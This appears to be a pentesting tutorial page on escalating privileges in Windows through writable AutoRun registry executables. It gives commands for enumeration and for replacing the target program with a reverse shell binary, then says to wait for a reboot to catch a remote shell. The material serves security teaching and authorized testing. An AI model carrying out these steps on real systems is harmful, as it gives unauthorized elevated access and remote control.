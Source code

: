 # AutoRuns

Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry. If you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.

Use winPEAS to check for writable AutoRun executables:

```
winPEASany.exe quiet applicationsinfo
```

![](<../../../../.gitbook/assets/image (148).png>)

Alternatively, we could manually enumerate the AutoRun executables:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

and then use accesschk.exe to verify the permissions on each one:

```
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

![](<../../../../.gitbook/assets/image (150).png>)

The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by Everyone. Create a backup of the original:

```
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

Copy our reverse shell executable to overwrite the AutoRun executable:

```
copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\AutorunProgram\program.exe"
```

![](<../../../../.gitbook/assets/image (154).png>)

now start a listener on attacker machine and wait for the system to reboot, the autorun task will start and you will get a remote shell.

{% hint style="info" %}
on windows 10 the exploit will be triggered with the privileges of the last logged on user. so it is possible that we get another shell with the same user privileges.
{% endhint %}
